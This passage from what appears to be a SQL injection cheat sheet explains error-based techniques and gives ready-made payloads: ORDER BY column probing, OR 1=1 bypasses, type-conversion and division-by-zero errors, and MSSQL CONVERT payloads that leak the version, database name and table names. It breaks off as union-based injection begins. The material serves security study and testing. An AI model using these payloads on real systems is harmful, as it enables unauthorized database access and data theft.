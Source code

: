 ### Error-Based SQLi
Leverages database errors to gain information about the structure of the database. Force the database to return an error message containing useful information. If the `ORDER BY 100` clause causes an error, the attacker can deduce the number of columns in the original query.

```
' OR 1=1 ORDER BY 100 -- 
```

#### Error-Based SQLi Types

- **Syntax Error:** When an attacker introduces a syntax error into an SQL query, the database might return an error message that exposes details about the query structure.

```
' OR 1=1--

SELECT * FROM users WHERE username = 'admin' AND password = '' OR 1=1--';
```

- **Type Conversion Error:** Triggers an error by attempting to convert a string to an integer.

```
' AND 1=CONVERT(int, 'text') -- -
```

- **Division by Zero:** This payload attempts to divide by zero, which typically causes an error, potentially leaking database information in the error message. Some databases allow SQL queries that can cause runtime errors, such as division by zero. This can be exploited to extract information. 

```
' OR 1=1; SELECT 1/0; --
' AND 1/0=1 --
1/(SELECT COUNT(*) FROM users)

SELECT * FROM users WHERE id = 1 AND 1/(SELECT COUNT(*) FROM users) = 1;
```

#### Error-Based SQLi Enumeration 
Microsoft SQL Server (MSSQL) also provides detailed error messages. Here are some example payloads:

- **Version Information:**

```
1' AND 1=CONVERT(int, @@version)--
```

- **Database Name:**

```
1' AND 1=CONVERT(int, DB_NAME())--
```

- **Extracting Table Names:**

```
1' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sysobjects WHERE xtype='U'))--
```

### Union-Based SQLi
Uses the `UNION` SQL operator to combine the results of two queries into a single result set, which is then returned to the application. Combine the results of a malicious query with a legitimate one. The attacker appends a `UNION` clause to merge the results of the `users` table with the original query.
